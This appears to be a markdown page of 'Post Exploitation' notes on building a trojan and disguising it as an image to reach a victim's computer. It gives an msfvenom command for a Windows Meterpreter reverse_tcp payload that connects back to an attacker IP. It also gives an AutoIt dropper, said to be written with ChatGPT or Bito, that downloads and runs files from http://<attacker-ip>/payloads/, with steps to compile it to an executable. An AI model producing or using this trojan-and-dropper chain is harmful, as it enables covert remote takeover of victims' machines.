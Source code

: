 **Post Exploitation** 

How to create a trojan and then hide it in an image so that we can access a victim's computer. 

Making the trojan with MSFVenom:
```sh
sudo msfvenom -p windows/meterpreter/reverse_tcp --platform windows -f exe LHOST=<attacker-ip> LPORT=4444 -o /home/payloads/payload.exe
```
- If you wanted to use this on an external network you would add an external IP (public IP) and then setup port forwarding. in your router. 

Chat GPT or Bito (VSCode) code to download and execute a file:
```C
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "url1,url2"

Local $urlsArray = StringSplit($urls, ",", 2)

For $url in $urlsArray
	$sFile = _DownloadFile($url)
	shellExecute($sFile)

Next

Func _DownloadFile($sURL)
	Local $hDownload, $sFile
	$sFile = StringRegExpReplace($sURL, "^.*/", "")
	$sDirectory = @TempDir & $sFile
	$hDownload = InetGet($sURL, $sDirectory, 17, 1)
	InetClose($hDownload)
	Return $sDirectory
EndFunc    ;==>_GetURLImage
```
- Name the file `autoit-file.txt`. When completed give it the extension `.au3`
- Add the URL as: `http://<attacker-ip>/payloads/image.jpg` and `http://<attacker-ip>/payloads/payload.exe`. Copy and paste the files path into the kali browser to make sure you have entered the correct path to file.
- Keep the Trojan and AutoIt file in the same location
- You can now use a tool, that was installed with Veil, to change the AutoIt file into an exe file. The tool is called: `Compile Script to .exe`

![](img/autoit-to-exe.png)
